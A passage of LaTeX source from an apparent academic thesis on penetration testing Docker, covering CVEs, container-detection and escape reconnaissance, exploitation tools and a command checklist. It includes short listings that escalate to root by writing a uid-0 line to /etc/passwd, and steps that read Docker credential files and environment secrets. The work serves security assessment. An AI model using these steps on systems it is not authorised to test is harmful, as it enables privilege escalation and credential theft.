This vulnerability has a CVSS score of 9.8 (and a 10 in CVSS 2)\footnote{\url{https://nvd.nist.gov/vuln/detail/CVE-2019-5021}} out of a maximum score of 10. Such a high CVSS score means that this is considered an extremely high-risk vulnerability. But in actuality, this vulnerability is only risky in very specific cases.

An empty \lstinline{root} password sounds very dangerous, but it really is not that dangerous in an isolated environment (e.g.\ a container) that runs as \lstinline{root} (inside the container) by default. This vulnerability will only be dangerous in very specific cases.

For example, if we create a Docker image based on \lstinline{alpine:3.5} that uses a non-\lstinline{root} user by default. If an attacker finds a way to execute code in the container, this vulnerability will allow them to escalate their privileges from the non-\lstinline{root} user to \lstinline{root}, but the attacker will still need to find a way to escape the container. Being able to execute code as \lstinline{root} will help them with escaping the container, but it does not guarantee it. This example shows that this vulnerability is dangerous, but only in a scenario where it is chained using other vulnerabilities.

\subsection{CVE--2018--15664}
A bug was found in Docker 18.06.1-ce-rc1 that allows processes in containers to read and write files on the host\cite{CVE-2018-15664-Openwall}\cite{CVE-2018-15664-Bugzilla}. There is enough time between the checking if a symlink is linked to a safe path (within the container) and the actual using of the symlink, that the symlink can be pointed to another file in the mean time. This allows a container to start by reading or writing a symlink to a arbitrary non-relevant file in the container, but actually read or write a file on the host.

\subsection{CVE--2018--9862}
Docker did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2018-9862-Github}. This can be misused using the first entry of \lstinline{/etc/passwd}. This allows malicious images be created with users that grant \lstinline{root} rights when used.

\begin{lstlisting}[caption={Overwrite the \lstinline{root} user in a container.},captionpos=b]
(host)$ docker run --rm -ti ... ubuntu bash
(cont)# echo "10:x:0:0:root:/root:/bin/bash" > /etc/passwd
(host)$ docker exec -ti -u 10 hello  bash
(cont)# id
uid=0(10) gid=0(root) groups=0(root)
\end{lstlisting}

\subsection{CVE--2016--3697}

Docker before 1.11.2 did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2016-3697-Github}. This allows malicious images be created with users that grant \lstinline{root} rights when used.
\begin{lstlisting}[caption={Override \lstinline{root} user in container.},captionpos=b]
(host)$ docker run --rm -it --name=test ubuntu:latest /bin/bash
(cont)# echo '31337:x:0:0:root:/root:/bin/bash' >> /etc/passwd
(host)$ sudo docker exec -it --user 31337 test /bin/bash
(cont)# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}



    \chapter{Penetration Testing of Docker}\label{chapter:pentesting}
In \autoref{chapter:vulnerabilities} we looked at specific vulnerabilities. In this chapter we will look at how we identify those vulnerabilities during a penetration test. We will first look at how to identify them manually. After that, we will look at available tools that will help us automate part of that process.

\medskip

In \autoref{chapter:checklist} we will combine the information from \autoref{chapter:vulnerabilities} and this chapter into a checklist.

\section{Manually Identifying Vulnerabilities}\label{section:identify-vulnerabilities}
In this section we will discuss how we can manually identify the vulnerabilities we looked at in \autoref{chapter:vulnerabilities} once we have access to a system. This section is split into three parts, that correspond to the attacker models of \autoref{chapter:attack-surface-models}.

In \autoref{subsection:detection} we look at techniques to identify which attacker model is relevant during an assessment. This means we will discuss techniques to identify whether we are inside a container or on a host.

The second part (\autoref{subsection:testing-container}) corresponds directly to container escapes (\autoref{subsection:container-escape}). We take the perspective of a process inside a container and look how we could perform a container escape attack.

The third part (\autoref{subsection:testing-host}) corresponds directly to Docker daemon attacks (\autoref{attacker-model:daemon-attacks}). We take the perspective of an (unprivileged) process on a host with Docker installed on it and look how we could perform a Docker daemon attack.

\medskip

We will mostly focus on the misconfigurations (\autoref{section:misconfigurations}), because although the security related bugs (\autoref{section:bugs}) might have a high impact, they are all mitigated with one simple line of advice: ``Keep your systems up to date''. Checking whether a system is vulnerable to a known bug is also a lot easier than checking whether a system is vulnerable because of misconfiguration, because all Docker bugs are dependent on the version of Docker being out of date (i.e.\ the Docker version tells us what Docker is vulnerable to).

\subsection{Detect If We Are Running in a Container}\label{subsection:detection}
In most security assessments and penetration tests it will be clear what kind of system (i.e.\ running inside a container or not) we are attacking. In some cases, however, it might not be.

A good example of this, is finding a remote code execution vulnerability on a system during a black box penetration test. This allows us to execute arbitrary commands on a system that we know nothing about. In such a case it is important to know if we are running in a Docker container or not.

\medskip

In this section, we will look at steps that show us whether we are in a Docker container. These steps are in descending order of ease and certainty. If we know we are inside a container, we can perform reconnaissance inside the container (see \autoref{subsection:testing-container}). If we know we are not running inside a container, we can perform reconnaissance on the host (see \autoref{subsection:testing-host}).

\input{content/penetration-testing/manual/detection/dockerenv}
\input{content/penetration-testing/manual/detection/cgroup}
\input{content/penetration-testing/manual/detection/processes}
\input{content/penetration-testing/manual/detection/binaries}

\subsection{Testing from Container}
If we have only access to a container, we are mostly are going to look for ways to escape it or see what we can reach from the container. In this section we will look at what we should look at and target.

\hfill

Many Docker images are stripped from unnecessary tools, binaries and libraries to make the image smaller. However, we might need those tools during a penetration test. If we are \lstinline{root} in a container, we are most likely able to install the necessary tooling. If we only have access to a non-\lstinline{root} user, it might not be possible to install anything. In that case, we will have to work with what is available to us.

\input{content/penetration-testing/manual/container/identifying-users}
\input{content/penetration-testing/manual/container/docker-image}
\input{content/penetration-testing/manual/container/host-os}
\input{content/penetration-testing/manual/container/capabilities}
\input{content/penetration-testing/manual/container/volumes}
\input{content/penetration-testing/manual/container/socket}
\input{content/penetration-testing/manual/container/network}

\subsection{Testing from Host}

\subsubsection{Docker Version}
\todo[inline]{Docker version, does not require docker permissions}

\subsubsection{Running Containers}
\todo[inline]{Cronjobs}

\subsubsection{Docker Socket}

\subsubsection{Docker Daemon Configuration Files}
\todo[inline]{systemctl cat docker}
\todo[inline]{/etc/default/docker}
\todo[inline]{daemon.json}

\subsubsection{Docker Group}
\todo[inline]{Which users are in the docker group}

\subsubsection{\texorpdfstring{\lstinline{setuid}}{setuid} bit}

\subsubsection{\texorpdfstring{iptables}{iptables}}

\subsubsection{TCP Listener}

\subsubsection{Configuration Files}


\section{Automation Tools}\label{section:tools}
Most security assessments are time restricted. Large, complex systems need to be assessed in a short amount of time. There are tools that automate part of the assessment process. Instead of taking every step manually, these tools scan systems automatically and systematically to find known vulnerabilities and possible weak spots in a system. Because Docker is a popular ecosystem, there exist many different tools and scanners. Created by both companies (including Docker itself) and individuals interested in the security of Docker.

\medskip

The advantage of these tools is that they save a lot of time and effort, because they can look at every part of a system in a systematic way. However, while the tools save time, they do miss the precision and detail that manual testing brings. Many security flaws are complex and might only be vulnerable under specific circumstances. Manual examination and testing might reveal new vulnerabilities or vulnerable circumstances, while automated testing will only look for known vulnerabilities.

As we will see, most tools have a specific vulnerability or part of the system they scan. No single tool will automate all parts of an assessment.

That is why using tools can help us, but can never fully replace manual examination.

\medskip
In this section we will look at the different types of tools that are available to automate parts of what we looked at in \autoref{section:identify-vulnerabilities}.

\subsection{Host Configuration Scanners}
The tools described in this section are run on a host running Docker (see \autoref{subsection:testing-host}). They check for issues in the configuration of Docker, available images and available containers.

\subsubsection{Docker Bench for Security}\label{tools:bench}
Docker itself has released a scanner (called Docker Bench for Security\footnote{\url{https://github.com/docker/docker-bench-security}}) that is based on the CIS Docker Benchmark. It is meant to run on a host running Docker. The scanner checks whether the Docker configuration, images and containers on the host follow every guideline in the CIS Docker Benchmark. Some guidelines might be irrelevant to every host (e.g.\ guidelines relating to Docker Swarm). These are skipped by Docker Bench for Security.

\medskip

Docker Bench for Security solves the biggest problem of the CIS Docker Benchmark: its length. The CIS Docker Benchmark is a long document, which makes it hard to use (as discussed in \autoref{futurework:CIS}). Because Docker Bench for Security automatically checks all guidelines, we only need to look at the guidelines that do not pass the check. This makes it a helpful tool during a security assessment.

\subsubsection{Dockscan}
Dockscan\footnote{\url{https://github.com/kost/dockscan}} checks a host and the running containers for misconfigurations (not every misconfiguration is security related). It is quite old (the last change is made in august 2016) and as such less useful during a penetration test.\ dockscan scans for the following misconfigurations:
\begin{itemize}
    \item The number of changed but not persistent files of running containers.
    \item Empty passwords in containers (similar to \autoref{subsection:CVE-2019-5021}).
    \item The number of processes running inside a container.
    \item Whether a SSH server is running inside a container.
    \item If a non-stable version of Docker is installed.
    \item The use of insecure registries.
    \item Whether memory limits have been set for containers.
    \item Whether IPv4 traffic forwarding is enabled in Docker.
    \item Whether a mirror registry is used.
    \item If the AUFS storage driver is used.
\end{itemize}

\subsection{Docker Image Analysis Tools}\label{subsection:image-analysis-tools}
Most Docker security analysis tools focus on static analysis of Docker images. They look for software and libraries inside the images and match these against known vulnerability databases. Some also look for sensitive information (e.g.\ passwords) that might be stored inside the image. \autoref{appendix:static-analysis-list} lists the available Docker image analysis tools.

Although these tools are more useful from a defensive perspective (e.g.\ scanning images for problems before they are deployed), they might reveal vulnerabilities or sensitive information during a penetration test.

\subsection{Exploitation Tools}\label{subsection:offensive-tools}
There are tools that specifically focus on the exploitation of vulnerabilities. These tools focus on escaping containers or escalating privileges on the host. They can be useful during a penetration test, because they will automate exploitation of specific vulnerabilities.

\subsubsection{Break Out of the Box}
Break Out of the Box\footnote{\url{https://github.com/brompwnie/botb}} (BOtB) is a tool that identifies and exploits common container escape vulnerabilities. It is able to do the following escapes:

\begin{itemize}
    \item If BOtB finds the Docker socket mounted inside the container (which we manually do in \autoref{subsubsection:searching-socket}), BOtB can escape the container using the same technique we discuss in \autoref{subsection:api}.

    \item BOtB is able to escape containers using CVE--2019--5736 (see \autoref{CVE-2019-5736}).

    \item BOtB is able to identify sensitive information in environment variables (see \autoref{pentest:container:env-vars}).

    \item If the container is running in privileged mode, BOtB tries to escape using the same vulnerability\cite{TrailOfBits-Docker-Escape}\footnote{It should be noted that privileged mode is not needed for this container escape to work (as discussed in \autoref{CAP_SYS_ADMIN}).} we looked at in \autoref{CAP_SYS_ADMIN}.
\end{itemize}

\subsubsection{Metasploit}
Metasploit\footnote{\url{https://www.metasploit.com/}} is an exploitation framework (not only for Docker). It has some modules specific to Docker:

\begin{itemize}
    \item Linux Gather Container Detection\cite{Metasploit-Linux-Gather-Container-Detection}, checks whether it is running inside a container (similar to the checks we look at in \autoref{subsection:detection}).
    \item Multi Gather Docker Credentials Collection\cite{Docker-Credentials-Metasploit}, collects all \lstinline{.docker/config.json} files in the home directories of users (see \autoref{config-files:docker-config-json}).
    \item Unprotected TCP Socket Exploit\cite{Metasploit-Unprotected-TCP-Socket}, gets \lstinline{root} access to a remote host which exposes its Docker API over TCP by creating a container with the host filesystem mounted as a volume (see \autoref{subsection:api} and specifically \autoref{subsubsection:remote-access}).
\end{itemize}

\subsubsection{Harpoon}
Harpoon\footnote{\url{https://github.com/ProfessionallyEvil/harpoon}} is a tool that can identify whether it is running inside a container by looking at the \lstinline{cgroup} (see \autoref{subsubsection:detection:cgroup}) and tries to find and escape using a mounted Docker socket (see \autoref{subsection:api}).


    \chapter{Docker Penetration Test Checklist}\label{chapter:checklist}
\todo[inline]{Rename checklist to something like methodology eveywhere}
\todo[inline]{Dave:you may add the text that Secura explisitly asked for this list}
\todo[inline]{Jos: What is your contribution? What is new?}
\todo[inline]{Jos: How long will it remain useful/ up to date?}
\todo[inline]{Jos: To what extent can this checklist be automated?}
\todo[inline]{Jos: What are problems with automation?}
\todo[inline]{Split into separate files}
In \autoref{chapter:vulnerabilities} and \autoref{chapter:pentesting} we looked at common vulnerabilities and how to identify them. In this chapter we will summarize those into a checklist consisting of steps.

This list is kept intentionally short and uses only Unix shell commands that can be run manually, to make it easy and quick to use. In \autoref{section:tools} we look at tools help automating certain enumeration or exploitation of vulnerabilities. These are however not necessary to use this checklist.

\medskip

The first steps (\autoref{section:checklist-detection}) are meant to detect whether we are running inside a container. If we know we are inside a container, we can look for vulnerabilities inside the container (see \autoref{section:checklist-vulnerabilities-container}). If we know we are not running inside a container, we can look for vulnerabilities on the host (see \autoref{section:checklist-vulnerabilities-host}).

\section{Are We Running in a Container?}\label{section:checklist-detection}
\todo[inline]{Geert: Change the title. Casing looks bad}
If the answer to any of the following questions is yes, we are most likely running inside a container. For detailed information, see \autoref{subsection:detection}.

\medskip

If we are running inside a container, see \autoref{section:checklist-vulnerabilities-container}. If not, please see \autoref{section:checklist-vulnerabilities-host}.

\begin{itemize}
    \item \textbf{Does \lstinline{/.dockerenv} exists?} (see \autoref{subsubsection:dockerenv})\\
    Execute ``\lstinline{ls /.dockerenv}'' to see if \lstinline{/.dockerenv} exists.

    \item \textbf{Does \lstinline{/proc/1/cgroup} contain ``\lstinline{/docker/}''?} (see \autoref{subsubsection:detection:cgroup})\\
    Execute ``\lstinline{grep '/docker/' /proc/1/cgroup}'' to find all lines in \lstinline{/proc/1/cgroup} containing ``\lstinline{/docker/}''.

    \item \textbf{Are there fewer than 5 processes?} (see \autoref{subsubsection:processes})\\
    Execute ``\lstinline{ps aux}'' to view all processes.

    \item \textbf{Is the process with process id 1 a common initial process?} (see \autoref{subsubsection:processes})\\
        Execute ``\lstinline{ps -p1}'' to view the process with process id 1 and check if it is a common initial process (.e.g.\ \lstinline{systemd} or \lstinline{init}).

    \item \textbf{Are common libraries and binaries not present on the system?} (see \autoref{subsubsection:binaries})\\
    We can use the \lstinline{which} command to find available binaries. For example, ``\lstinline{which sudo}'' will tell us if the \lstinline{sudo} binary is available.
\end{itemize}

\section{Finding Vulnerabilities in Containers}\label{section:checklist-vulnerabilities-container}
The following questions and steps are meant to identify interesting parts and weak spots inside containers. For detailed information, see \autoref{subsection:testing-container}.

\begin{itemize}
    \item \textbf{What is the current user?} (see \autoref{subsubsection:user-enumeration})\\
    Execute ``\lstinline{id}'' to see what the current user is and what groups it is in.

    \item \textbf{Which users are available on the system?} (see \autoref{subsubsection:user-enumeration})\\
    Read \lstinline{/etc/passwd} to see what users are available.

    \item \textbf{What is the operating system of the container?} (see \autoref{subsubsection:idenitfy-container-os})\\
    Read \lstinline{/etc/os-release} to get information about the operating system.

    \item \textbf{Which processes are running?} (see \autoref{subsubsection:idenitfy-container-os})\\
    Execute ``\lstinline{ps aux}'' to view all processes.

    \item \textbf{What is the host operating system?} (see \autoref{subsubsection:identify-host-os})\\
    Execute ``\lstinline{uname -a}'' to get information about the kernel and the underlying host operating system.

    \item \textbf{Which capabilities do the processes in the container have?} (see \autoref{subsubsection:container:capabilities})\\
    Get the current capabilities value by running ``\lstinline{grep CapEff /proc/self/status}'' and decode it with ``\lstinline{capsh --decode=value}''. \lstinline{capsh} can be run on a different system.

    \item \textbf{Is the container running in privileged mode?}
    \\(see \autoref{subsubsection:container:privileged})\\
    If the \lstinline{CapEff} value of the previous step equals \lstinline{0000003fffffffff}, the container is running in privileged mode and we are able to escape it (see \autoref{subsection:privileged}).

    \item \textbf{What volumes are mounted?} (see \autoref{subsubsection:volumes})\\
    Read \lstinline{/proc/mounts} to see all mounts including the volumes.

    \item \textbf{Is there sensitive information stored in environment variables?} (see \autoref{pentest:container:env-vars})\\
    The ``\lstinline{env}'' command will list all environment variables. We should check these for sensitive information.

    \item \textbf{Is the Docker Socket mounted inside the container?} (see \autoref{subsubsection:searching-socket})\\
        Check \lstinline{/proc/mounts} to see if \lstinline{docker.sock} (or some similar named socket) is mounted inside the container. \lstinline{/run/docker.sock} is a common mount point. If we find it, we can escape the container and interact with the Docker daemon on the host.

    \item \textbf{What hosts are reachable on the network?} (see \autoref{subsubsection:network-scan})\\
    If possible, use \lstinline{nmap} to scan the local network for reachable hosts. The IPv4 address of the container can be found in \lstinline{/etc/hosts}.
\end{itemize}

\section{Finding Vulnerabilities on the Host}\label{section:checklist-vulnerabilities-host}
The following questions and steps are meant to identify interesting parts and weak spots on hosts running Docker. For detailed information, see \autoref{subsection:testing-host}.

\begin{itemize}
    \item \textbf{What is the version of Docker?} (see \autoref{subsubsection:version})\\
    Run ``\lstinline{docker --version}'' to find the version of Docker. We will need to check if there are any known software related bugs (\autoref{section:bugs}) in this version of Docker. We can find relevant CVEs in the National Vulnerability Database.\footnote{\url{https://nvd.nist.gov/}}

    \item \textbf{Run Docker Bench for Security} (see \autoref{tools:bench})\\
        Run Docker Bench for Security\footnote{\url{https://github.com/docker/docker-bench-security}} to quickly see what CIS Docker Benchmark guidelines are not being followed.

    \item \textbf{Which users are able to interact with the Docker socket?} (see \autoref{subsubsection:docker-permissions-host})\\
    Execute ``\lstinline{ls -l /var/run/docker.sock}'' to see the owner and group of \lstinline{/var/run/docker.sock} and which users have read and write access to it. The owner and every user in the group is allowed to use Docker.

    \item \textbf{Who is in the \lstinline{docker} group?} (see \autoref{subsubsection:docker-permissions-host})\\
    Check which users are in the group identified in the previous step (by default \lstinline{docker}) by executing ``\lstinline{grep docker /etc/group}''.

    \item \textbf{Is the \lstinline{setuid} bit set on the Docker client binary?} (see \autoref{subsubsection:docker-permissions-host})\\
    Check the permissions (including whether the \lstinline{setuid} bit is set) of the Docker binary by executing ``\lstinline{ls -l $(which docker)}''.

    \item \textbf{What images are available?} (see \autoref{subsubsection:images-containers})\\
    List the available images by running ``\lstinline{docker images -a}''.

    \item \textbf{What containers are available?} (see \autoref{subsubsection:images-containers})\\
    List all containers (running and stopped) by running ``\lstinline{docker ps -a}''.

    \item \textbf{How is the Docker daemon started?} (see \autoref{subsubsection:configuration})\\
    Check configuration files (e.g. \lstinline{/usr/lib/systemd/system/docker.service} and \lstinline{/etc/docker/daemon.json}) for information on how the Docker daemon is started.

    \item \textbf{Do any \lstinline{docker-compose.yaml} files exist?} (see \autoref{subsection:config-files} and \autoref{subsubsection:configuration})\\
    Find all \lstinline{docker-compose.yaml} files using ``\lstinline{find / -name "docker-compose.*"}''.

    \item \textbf{Do any \lstinline{.docker/config.json} files exist?} (see \autoref{subsection:config-files} and \autoref{subsubsection:configuration})\\
    Read the \lstinline{config.json} files in all directories by running ``\lstinline{cat /home/*/.docker/config.json}''.

    \item \textbf{Are the \lstinline{iptables} rules set for both the host and the containers?} (see \autoref{subsubsection:iptables-host})\\
    List the \lstinline{iptables} by running ``\lstinline{iptables -vnL}'' and ``\lstinline{iptables -t filter -vnL}''.
\end{itemize}

    \chapter{Future Work}
\section{Kubernetes}
\todo[inline]{Kubernetes Pod Escape Using Log Mounts: \url{https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts}}
\todo[inline]{Container Platform Security at Cruise: \url{https://medium.com/cruise/container-platform-security-7a3057a27663}}
\todo[inline]{\href{https://hub.packtpub.com/an-unpatched-security-issue-in-the-kubernetes-api-is-vulnerable-to-a-billion-laughs-attack/}{An unpatched security issue in the Kubernetes API is vulnerable to a ``billion laughs'' attack}}
\todo[inline]{\href{https://itnext.io/learn-about-the-basics-of-kubernetes-persistence-part-1-b1fa2847768f}{Basics of Kubernetes Volumes (Part 1)}}
\todo[inline]{\href{https://itnext.io/tutorial-basics-of-kubernetes-volumes-part-2-b2ea6f397402}{Basics of Kubernetes Volumes (Part 2)}}
\todo[inline]{What is the added value of virtualisation in comparison to containerization?}
\todo[inline]{\href{https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-190.pdf}{NIST: Application Container Security Guide}}
\todo[inline]{\href{https://www.cisecurity.org/benchmark/kubernetes/}{CIS Benchmark Kubernetes}}
\todo[inline]{\href{https://stupefied-goodall-e282f7.netlify.com/contributors/design-proposals/auth/no-new-privs/}{No New Privs}}
\todo[inline]{\href{https://github.com/cyberark/KubiScan}{KubiScan}}
\todo[inline]{\href{https://neuvector.com/container-security/hack-kubernetes-container/}{How to Hack a Kubernetes Container, Then Detect and Prevent It}}
\todo[inline]{\href{http://blog.kubernetes.io/2016/08/security-best-practices-kubernetes-deployment.html}{Security Best Practices for Kubernetes Deployment}}

\section{Docker on Windows}

\section{Docker Swarm}

\section{Condense Docker CIS Benchmark}

The Docker CIS Benchmark contains 115 guidelines with their respective documentation.
This makes it a 250+ page document. This is not practical for developers and engineers (the intended audience). It would be much more useful to have a smaller, better sorted list that only contains common mistakes and pitfalls to watch out for.

\hfill

The CIS Benchmark do indicate the importance of each guideline.
With Level 1 indicating that the guideline is a must-have and Level 2 indicating that the guideline is only necessary if extra security is needed. However, only twenty-one guidelines are actually considered Level 2. All the other guidelines are considered Level 1. This still leaves the reader with a lot of guidelines that are considered must-have.

\hfill

It would be a good idea to split the document into multiple sections. The guidelines can be divided by their importance and usefulness. For example, a three section division can be made.

\hfill

The first section would describe obvious and basic guidelines that everyone should follow (and probably already does). This is an example of guidelines that would be part of this section:
\begin{itemize}
    \item 1.1.2: Ensure that the version of Docker is up to date
    \item 2.4: Ensure insecure registries are not used
    \item 3.1: Ensure that the docker.service file ownership is set to root:root
    \item 4.2: Ensure that containers use only trusted base images
    \item 4.3: Ensure that unnecessary packages are not installed in the container
\end{itemize}

\hfill

The second section would contain guidelines that are common mistakes and pitfalls. These guidelines would be the most useful to the average developer. For example:
\begin{itemize}
    \item 4.4 Ensure images are scanned and rebuilt to include security patches
    \item 4.7 Ensure update instructions are not use alone in the Dockerfile
    \item 4.9 Ensure that COPY is used instead of ADD in Dockerfiles
    \item 4.10 Ensure secrets are not stored in Dockerfiles
    \item 5.6 Ensure \lstinline{sshd} is not run within containers
\end{itemize}

\hfill

The last section would describe guidelines that are intended for systems that need extra hardening. For example:
\begin{itemize}
    \item 1.2.4 Ensure auditing is configured for Docker files and directories
    \item 4.1 Ensure that a user for the container has been created
    \item 5.4 Ensure that privileged containers are not used
    \item 5.26 Ensure that container health is checked at runtime
    \item 5.29 Ensure that Docker's default bridge ``\lstinline{docker0}'' is not used
\end{itemize}

    \chapter{Related Work}\label{chapter:relatedwork}
A lot has been written about Security and Docker. Most of it focuses on the defensive perspective, summarizing existing material or on very specific parts of the Docker ecosystem.

\medskip

In their 2018 paper, A. Martin et al.\ review and summarize the Docker ecosystem, its vulnerabilities and relevant literature\cite{Docker-Ecosystem-Vulnerability-Analysis}. 

A comparison of OS-level virtualization technologies (e.g.\ containers) is given in\cite{Security-OS-level-Virtualization}. 

An in-depth look at the security of the Linux features (e.g. \lstinline{namespaces}) is given in\cite{Analysis-Docker-Security}. 

A more flexible Docker image hardening technique using SELinux policies is proposed in\cite{DockerPolicyModules}. 

In\cite{Defense-Docker-Escape} Z. Jian and L. Chen look at a Linux \lstinline{namespace} escape and look at defenses to protect against such an escape. 

Memory denial of service attacks from the container to the host and possible protections against it are described in\cite{Securing-Docker-Containers-from-DOS}. 

A very quick overview of penetration testing of Docker environments is given in\cite{Research-Pentesting-Docker-Environment}. 

In\cite{Study-Vulnerabilities-Docker-Hub} the authors show the results of their publicly available Docker image scan. They have looked at 356218 images and have identified and analyzed vulnerabilities within them.

\cite{To-Docker-Not-To-Docker} looks at the security implications of practical use-cases of using a Docker environment. 

The National Computing Center (NCC) group has published multiple papers on the security of Docker, both from a defensive\cite{Understanding-and-Hardening-Linux-Containers} and offensive\cite{Abusing-Containers} perspective.

    \chapter{Conclusions}

\todo[inline]{Docker Security}
\todo[inline]{CIS Benchmarks}
\todo[inline]{Pentesting at Secura}

    \chapter*{Acknowledgements}
\addcontentsline{toc}{chapter}{Acknowledgements}
I would like to sincerely thank everybody that has helped me with writing and gave me feedback. Especially Erik Poll and Dave Wurtz. I would also like to thank Secura for allowing me to do this research, giving me a place to work, giving me access to the practical real-world knowledge of the employees and giving me a look at how the company works.


    \bibliographystyle{unsrt}
    \bibliography{content/bibliography}

    \appendix
    \chapter{Example CIS Docker Benchmark Guideline}\label{appendix:CIS-Benchmark-Example}
\begin{figure}[ht]
    \centering
    
\includegraphics[page=135,width=.8\linewidth]{resources/images/cis_docker_benchmarks.pdf}
\end{figure}

\pagebreak

\begin{figure}[ht]
    \centering
    
\includegraphics[page=136,width=.8\textwidth]{resources/images/cis_docker_benchmarks.pdf}
\end{figure}


\chapter{List of Uninteresting CVEs}\label{appendix:CVE-List}
This appendix contains all vulnerabilities related to Docker and software used by (e.g.\ runC) that I have looked at and I deemed uninteresting. It does not contain other vulnerabilities or exploits (e.g. Kernel exploits) that might also effect Docker. The uninteresting exploits are exploits without any public information that can be used to exploit the underlying vulnerability, have too low of an impact, are not relevant, are very hard to correctly use or are very old.

\medskip

Not enough information is publicly available about the following vulnerabilities:
\begin{multicols}{2}
    \begin{itemize}
        \item CVE--2019--1020014
        \item CVE--2019--14271
        \item CVE--2016--9962
        \item CVE--2016--8867
        \item CVE--2015--3629
        \item CVE--2015--3627
        \item CVE--2014--9357
        \item CVE--2014--6408
        \item CVE--2014--6407
        \item CVE--2014--3499
        \item CVE--2014--0047
    \end{itemize}
\end{multicols}

\medskip

These vulnerabilities are only relevant on Windows:
\begin{itemize}
    \item CVE--2019--15752
    \item CVE--2018--15514
\end{itemize}

\medskip

These vulnerabilities do not have enough impact or are too old to be useful:
\begin{itemize}
    \item CVE--2019--13509
    \item CVE--2018--20699
    \item CVE--2018--12608
    \item CVE--2018--10892
    \item CVE--2017--14992
    \item CVE--2015--3631
    \item CVE--2015--3630
    \item CVE--2015--1843
    \item CVE--2014--9358
    \item CVE--2014--5277
\end{itemize}

\chapter{List of Image Static Analysis Tools}\label{appendix:static-analysis-list}
There are many tools that scan Docker images for risks. This is a list of existing scanners:
\begin{itemize}
    \item Clair\footnote{\url{https://github.com/coreos/clair}}: A server (created by CoreOS) that acts as an API that can be queried for vulnerabilities in Docker images.
    \item Clair-scanner\footnote{\url{https://github.com/arminc/clair-scanner}}: A client for Clair.
    \item Scanner\footnote{\url{https://github.com/kubeshield/scanner}}: A client for Clair.
    \item Banyan Collector\footnote{\url{https://github.com/banyanops/collector}}
    \item Trivy\footnote{\url{https://github.com/aquasecurity/trivy}}
    \item Aqua Security's MicroScanner\footnote{\url{https://github.com/aquasecurity/microscanner}}
    \item Dockle\footnote{\url{https://github.com/goodwithtech/dockle}}
    \item Dagda\footnote{\url{https://github.com/eliasgranderubio/dagda}}: Besides vulnerabilities, Dagda also looks for malware inside images.
    \item oscap-docker\footnote{\url{https://www.open-scap.org/}}
\end{itemize}


\end{document}
